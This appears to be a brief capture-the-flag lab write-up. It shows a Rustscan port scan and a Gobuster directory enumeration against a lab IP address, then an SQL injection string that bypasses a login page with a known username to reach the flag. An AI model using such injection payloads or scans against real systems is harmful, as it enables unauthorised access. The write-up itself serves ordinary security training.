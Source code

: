 - - - 
created : 17-07-2025 

Tags : #easy  
- - - 
# Objective

Root it.

# Recon
## Rustscan

Let's use [[Rustscan]] to scan the open ports on the machine :

```
──(hax㉿HaxonKali)-[~]
└─$ rustscan -a 10.10.142.189 

         Open 10.10.142.189:22
         Open 10.10.142.189:80

```

# Enumeration
## Gobuster

We can now enumerate with [[Gobuster]] :

```
──(hax㉿HaxonKali)-[~]
└─$ gobuster dir -u 10.10.142.189 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt

/manual               (Status: 301) [Size: 315] [--> http://10.10.142.189/manual/]

```

# Exploit

![a05d1ee2b423e3bc978f0e6e93839d28.png](a05d1ee2b423e3bc978f0e6e93839d28.png)

We have a login page, let's try [[SQL Injection]] with a valid username (found with hydra) : `username: martin' AND '1'='1' -- - ; passw :asdf` :

<img src="../../Flameshots/d11bdce304c0c86f761e2ac0e0e0033c.png" alt="d11bdce304c0c86f761e2ac0e0e0033c.png" width="583" height="533">

And we have the [[Flag]] .